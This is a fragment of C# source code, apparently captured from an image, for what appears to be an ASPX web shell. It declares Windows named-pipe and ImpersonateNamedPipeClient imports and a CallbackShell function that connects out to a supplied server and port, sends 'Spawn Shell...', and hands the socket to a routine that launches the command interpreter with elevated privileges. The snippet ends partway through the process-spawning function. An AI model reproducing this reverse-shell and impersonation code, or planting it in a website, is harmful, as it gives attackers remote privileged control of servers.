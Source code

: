 ```asp
    public const ulong ERROR_PIPE_CONNECTED = 535;
    public const ulong ERROR_PIPE_LISTENING = 536;

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern IntPtr CreateNamedPipe(
        String lpName,									
        uint dwOpenMode,								
        uint dwPipeMode,								
        uint nMaxInstances,							
        uint nOutBufferSize,						
        uint nInBufferSize,							
        uint nDefaultTimeOut,						
        IntPtr pipeSecurityDescriptor
        );

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool ConnectNamedPipe(
        IntPtr hHandle,
        uint lpOverlapped
        );

    [DllImport("Advapi32.dll", SetLastError = true)]
    public static extern bool ImpersonateNamedPipeClient(
        IntPtr hHandle);

    [DllImport("kernel32.dll", SetLastError = true)]
    public static extern bool GetNamedPipeHandleState(
        IntPtr hHandle,
        IntPtr lpState,
        IntPtr lpCurInstances,
        IntPtr lpMaxCollectionCount,
        IntPtr lpCollectDataTimeout,
        StringBuilder lpUserName,
        int nMaxUserNameSize
        );
 
    protected void CallbackShell(string server, int port)
    {

        string request = "Spawn Shell...\n";
        Byte[] bytesSent = Encoding.ASCII.GetBytes(request);

        IntPtr oursocket = IntPtr.Zero;
        
        sockaddr_in socketinfo;
        oursocket = WSASocket(AddressFamily.InterNetwork,SocketType.Stream,ProtocolType.IP, IntPtr.Zero, 0, 0);
        socketinfo = new sockaddr_in();
        socketinfo.sin_family = (short) AddressFamily.InterNetwork;
        socketinfo.sin_addr = inet_addr(server);
        socketinfo.sin_port = (short) htons((ushort)port);
        connect(oursocket, ref socketinfo, Marshal.SizeOf(socketinfo));
        send(oursocket, bytesSent, request.Length, 0);
        SpawnProcessAsPriv(oursocket);
        closesocket(oursocket);
    }

    protected void SpawnProcess(IntPtr oursocket)
    {
        bool retValue;
        string Application = Environment.GetEnvironmentVariable("comspec"); 
        PROCESS_INFORMATION pInfo = new PROCESS_INFORMATION();
        STARTUPINFO sInfo = new STARTUPINFO();
```